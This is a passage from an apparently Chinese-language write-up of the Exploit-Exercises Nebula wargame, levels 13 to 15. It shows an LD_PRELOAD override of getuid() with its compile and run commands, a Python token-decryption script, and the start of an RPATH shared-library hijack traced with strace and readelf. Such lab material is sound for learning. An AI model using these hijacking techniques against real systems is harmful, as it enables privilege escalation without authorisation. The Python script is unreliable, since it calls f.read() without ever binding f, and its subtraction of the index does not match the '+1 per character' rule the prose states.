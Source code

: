 这道题目是为了exploit`getuid()`函数，我们可以通过`LD_PRELOAD`预先加载我们自己的链接文件，劫持原本的`getuid()`函数。

``` c
int getuid()
{
	return 1000;
}
```

将它编译为动态链接文件，并执行：

	$ gcc -shared -o getuid.so getuid.c

	$ LD_PRELOAD=~/getuid.so /home/flag13/flag13

执行发现没有效果，发现**LD_PRELOAD要生效，所执行的程序的owner必须是该用户**，所以将flag13文件copy一下即可：

![Level13](Exploit-exercises-Nebula-remaining/level13_1.png)

---

## Level14

此题略微试探一下即可发现其加密逻辑：从第0个字符开始，每个字符的ascii对应加1即为密文。直接编写脚本解密：

``` python
#!/usr/bin/python

plain = ''

with open('/home/flag14/token', 'r'):
    cipher = f.read()[:-1]
    for i in range(len(cipher)):
        plain += chr(ord(cipher[i]) - i)

print plain
```

---

## Level15

按照题目提示，`strace`来监控flag15程序的系统调用，在输出中发现：

	open("/var/tmp/flag15/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)

程序试图打开一个不存在的文件，观察文件名像是动态链接文件，查看flag15的相关信息：

	$ readelf -d flag15

	Dynamic section at offset 0xf20 contains 21 entries:
	  Tag        Type                         Name/Value
	 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
	 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]
	 ......
